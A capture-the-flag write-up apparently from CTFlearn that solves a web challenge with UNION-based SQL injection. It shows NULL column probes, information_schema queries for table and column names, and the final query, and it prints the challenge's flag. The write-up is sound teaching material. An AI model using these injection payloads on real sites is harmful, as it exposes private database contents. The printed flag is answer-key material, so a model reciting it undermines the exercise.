 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command

![1](https://github.com/Knign/Write-ups/assets/110326359/26c58880-6263-475a-af38-6d87ebf8ed62)

## Determining the number of columns required
- Let's find out how many columns this table has using the `NULL` values.
```
UNION SELECT NULL
UNION SELECT NULL,NULL
UNION SELECT NULL,NULL,NULL
```
- When the number of `NULL` values matches the number of columns, the database returns a proper output.
```
1 UNION SELECT NULL, NULL, NULL, NULL
```

![2](https://github.com/Knign/Write-ups/assets/110326359/84ecfac8-9f9d-4452-a4ad-f65264c4500e)

- So the current table has four columns.
## Finding all tables from the database
- Now we want to find out the other tables so that we can figure out which one might be useful for us.
- For that we can query `information_schema.tables` to list the tables in the database
```
1 UNION SELECT table_name, NULL, NULL, NULL FROM information_schema.tables
```

![3](https://github.com/Knign/Write-ups/assets/110326359/0cb54e5b-bad9-4ff1-b939-d16a7aa428c9)

```
Useful table: w0w_y0u_f0und_m3
```
## Finding all columns from w0w_y0u_f0und_m3
- In order to find all the columns in the database we have to query `information_schema.columns`.
```
1 UNION SELECT column_name, NULL, NULL, NULL FROM information_schema.columns
```

![4](https://github.com/Knign/Write-ups/assets/110326359/5bb3157c-7686-4660-a9e8-8034c8d5d29a)

```
Useful column: f0und_m3
```
## Finding the flag
- For the final step, we simply have to modify our query a little bit and select from `w0w_y0u_f0und_m3`.
```
1 UNION SELECT f0und_m3, NULL, NULL, NULL FROM w0w_y0u_f0und_m3
```

![5](https://github.com/Knign/Write-ups/assets/110326359/001e9b82-ab4d-4adb-83a4-c991a81d9cdc)

## Flag
```
CTFlearn{uni0n_1s_4_gr34t_c0mm4nd}
```
